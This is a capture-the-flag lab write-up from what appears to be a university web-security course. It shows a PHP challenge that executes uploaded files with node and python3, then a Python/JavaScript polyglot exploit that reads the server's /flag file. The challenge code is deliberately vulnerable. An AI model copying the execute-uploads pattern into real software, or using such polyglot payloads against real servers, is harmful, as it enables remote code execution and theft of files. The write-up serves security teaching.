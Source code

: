 ```yaml
---
title: Simple Welcome - 0x04(Lab - Script)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Welcome"
---
```


# Simple Welcome - 0x04(Lab - Script)
###### tags: `CTF` `Web` `eductf`
Challenge: https://pyscript.ctf.zoolab.org/

## Source Code
```php=
<?php
    if(!isset($_FILES["file"]))
        highlight_file(__file__) && die();
    $flag = file_get_contents('/flag');
    $node = @`node {$_FILES["file"]["tmp_name"]} 2>&1`;
    $python = @`python3 {$_FILES["file"]["tmp_name"]} 2>&1`;
    if($flag === $node && $flag === $python)
        echo 'Here is your Flag: '.$flag;
    else
        echo 'Fail :(';
?>
```
### Analysis
Must write a script that can be executed in python and node language simultaneously.

## Exploit - Using comment
1. In python
The comment is `#` for single line and `'''` for multi lines
2. In node
The comment is `//` for single line and `/**/` for multi lines
3. Using different definition of comment to write script
Some tips:
    ```python!
    a = 1 // 1;
    b = ''''''
    ```
    Both of these instruction are valid in python
4. Whole payload
* Python
    ```python!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```
* Javascript
    ```javascript!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```

* Whole exploit
    ```!=
    a = 1 // 1 ; b = '''

    const fs = require('fs');

    fs.readFile("/flag", 'utf8',(error, data) => {
        if (error) {
            console.error(error);
            return;
        }
        console.log(data.split('\n')[0]);
    })

    /* '''

    f = open("/flag", "r")
    print(f.read().split('\n')[0])
    # */
    ```
## Reference
[【已解决】PHP中函数前面加上at符号@的作用](https://www.crifan.com/php_function_front_at_sign_meaning/)
[[shell 2>&1是甚麼意思]](https://charleslin74.pixnet.net/blog/post/405455902)
[How to open a local file with JavaScript?](https://researchhubs.com/post/computing/javascript/open-a-local-file-with-javascript.html)
[How to Read/Write local files with Node.js](https://medium.com/@SergioPietri/how-to-read-write-local-files-with-node-js-3d2f58b0384)
[String.prototype.split()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
